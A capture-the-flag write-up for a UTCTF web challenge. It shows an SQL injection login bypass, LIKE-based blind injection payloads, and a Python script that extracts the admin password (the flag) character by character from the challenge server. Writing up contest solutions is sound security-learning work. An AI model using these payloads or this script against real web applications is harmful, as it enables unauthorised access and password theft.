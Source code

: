 # Write-up: epic admin pwn

## Description

### My Story :smile:
When I opened the web page I first tried SQL Injection.
```
username: ' or '1'='1'--
pass:
```
It was truly injectable and I was like "Oh no!!! another easy sql injection :unamused:". but when I logged in I didn't see any useful data like flag or something.

So the game got interesting. I thinked deeply and remembered `LIKE` operator in SQL and a video of youtube in which the attacker used to extract some data byte by byte and this was the idea :star2:.

I chcked these inputs for `username` field and it worked (the login was successful):
```
' and pass like '%'--
' and pass like 'utflag{%}'--
```

### Exploit Time
I wrote this simple function for testing `LIKE` operator different values.
```
import requests
import string

def test(s):
    r = requests.post('http://web2.utctf.live:5006/', data={'username': f"admin' and password like '{s}'--", 'pass':""})
    return r.text.find('Welcome, admin!') != -1
```

Then I checked the length of flag with these few lines.
```
s = 'utflag{'

cnt = 0
while not test(s + '_' * cnt + '}'):
    print(f'[X] cnt={cnt}')
    cnt += 1
print(f'[+] cnt={cnt}')
```
and the result was 16. so the pass is LIKE `utflag{________________}`.

I extracted the pass (flag) byte by byte in the next step.
```
s = 'utflag{'

chars = ['[_]'] + list(string.ascii_lowercase + string.digits)

cnt = 16
found = 0
for i in range(cnt):
    for j in chars:
        ss = s + j + '_' * (cnt - found - 1) + '}'
        print(ss)
        if test(ss):
            found += 1
            s += j
            print(f'[+] pass[{i}] : {j} ' + '#' * found + str(found / cnt) + '%')
            break
        else:
            print(f'[X] pass[{i}] : {j}')
```

[final script.py](./script.py)

### Flag
`utflag{dual1pa1sp3rf3ct}` :sunglasses:

